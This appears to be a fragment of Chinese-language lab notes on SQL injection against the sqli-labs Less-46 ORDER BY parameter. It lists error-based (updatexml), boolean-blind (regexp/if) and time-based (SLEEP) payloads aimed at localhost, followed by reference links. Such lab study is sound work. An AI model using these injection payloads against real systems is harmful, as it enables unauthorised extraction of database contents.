 payload:

> http://localhost/Less-46/?sort=1%20or%20%20updatexml(1,concat(0x2829,version()),1)%20--+

### 盲注

#### BoolenBased

> http://localhost/Less-46/?sort=(select+1+regexp+if(substring(database(),1,1)=0x73,1,0x00

`regexp`正则匹配函数

1与if语句正则匹配，database()第一个字符=0x73为真则if为1，则regexp匹配结果为1，否则为0。

#### TimeBased

> 5,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))

## Refer:

-   [双查询](https://www.2cto.com/article/201303/192718.html "双查询")
-   [宽字节注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html "宽字节注入")
-   [orderby从句注入](https://www.secpulse.com/archives/57197.html "orderby从句注入")


